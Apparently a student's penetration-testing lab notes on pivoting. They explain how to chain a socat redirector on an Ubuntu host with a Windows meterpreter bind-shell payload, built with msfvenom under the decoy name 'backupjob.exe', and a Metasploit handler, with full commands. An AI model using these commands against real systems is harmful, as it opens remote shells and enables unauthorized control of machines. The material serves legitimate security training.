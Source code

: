 - Similar to our socat's reverse shell redirector, **we can also create a socat bind shell redirector.**
- In the case of bind shells, the **Windows server will start a listener and bind to a particular port.**
- We can create a bind shell payload for Windows and execute it on the Windows host.
- At the same time, **we can create a socat redirector on the Ubuntu server**, **which will listen for incoming connections from a Metasploit bind handler and forward that to a bind shell payload on a Windows target.**

![[Pasted image 20250717071457.png]]

- Creating the Windows Payload:
	- `msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupjob.exe LPORT=8443`
- We **can start a `socat bind shell` listener, which listens on port `8080` and forwards packets to Windows server `8443`.**:
- Starting Socat Bind Shell Listener:
	- `socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443`

- Finally, we can start a Metasploit bind handler. This bind handler can be configured to connect to our socat's listener on port 8080 (Ubuntu server)
  
- Configuring & Starting the Bind multi/handler:
	- `use exploit/multi/handler`
	- `set payload windows/x64/meterpreter/bind_tcp`
	- `set RHOST 10.129.202.64`
	- `set LPORT 8080`
	- `run`